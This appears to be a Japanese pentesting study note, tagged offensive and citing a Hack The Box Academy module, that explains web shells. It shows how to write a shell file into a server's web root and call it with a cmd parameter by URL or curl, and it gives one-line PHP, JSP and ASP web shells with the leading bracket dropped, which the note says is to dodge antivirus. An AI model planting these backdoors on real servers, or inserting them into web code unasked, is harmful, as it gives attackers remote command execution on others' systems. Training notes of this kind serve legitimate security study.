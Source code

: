 ```yaml
---
tags:
  - Offensive
---
```


# Web Shell

エクスプロイトを実行して、攻撃対象のマシンに侵入またはリモートコードを実行できるとき、WebサーバーにPHP等のシェルにアクセスできるコードを仕込んで、ブラウザからURLを使って対話する方法。

- コードを仕込む
WebサーバーのRootにリモートコードを実行できれば、バックドアを作れる。
```bash
echo "<コード>" > /var/www/html/shell.php
```
- シェル実行
```url
http://target:port/shell.php?cmd=<command>
```
```bash
curl http://target:port/shell.php?cmd=<command>
```
Pythonを使って擬似的に対話形式にすることもできる。

## コード
※セキュリティソフト対策で最初の`<`を除く

- PHP
```php
?php system($_REQUEST["cmd"]); ?>
```
- JavaServer Pages
```jsp
% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```
- Active Server Pages
```asp
% eval request("cmd") %>
```


---

## 参照

1. https://academy.hackthebox.com/module/77/section/725